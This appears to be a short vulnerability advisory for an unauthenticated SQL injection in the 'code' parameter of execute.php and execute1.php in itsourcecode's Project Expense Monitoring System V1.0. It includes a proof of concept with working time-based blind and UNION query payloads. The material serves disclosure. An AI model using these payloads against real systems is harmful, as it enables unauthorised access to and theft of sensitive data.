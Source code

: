 # Vendor

itsourcecode

# Product

Project Expense Monitoring System

# version

V1.0

# Download 

https://itsourcecode.com/wp-content/uploads/2021/03/Construction-Management-System-Project-In-PHP-Source-Code.zip

# Vulnerability

SQLi

# Description

Attackers do not need to log in to the backend. They can pass in the code parameter in the execute.php and execute1.php pages and construct special SQL statements to carry out SQLi injection attacks to obtain sensitive data.
<img width="1492" alt="image" src="https://github.com/user-attachments/assets/feaaa556-21b0-439f-a58f-a577843999f5">

# POC
```
Parameter: code (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: code=1' AND (SELECT 3055 FROM (SELECT(SLEEP(5)))qdgV) AND 'wCrt'='wCrt

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: code=1' UNION ALL SELECT NULL,CONCAT(0x717a717071,0x6a5158484166616e41746e696241666561674a53525661626877575a6f426454534d69745359456c,0x71786a7171),NULL,NULL,NULL,NULL,NULL,NULL-- -
```
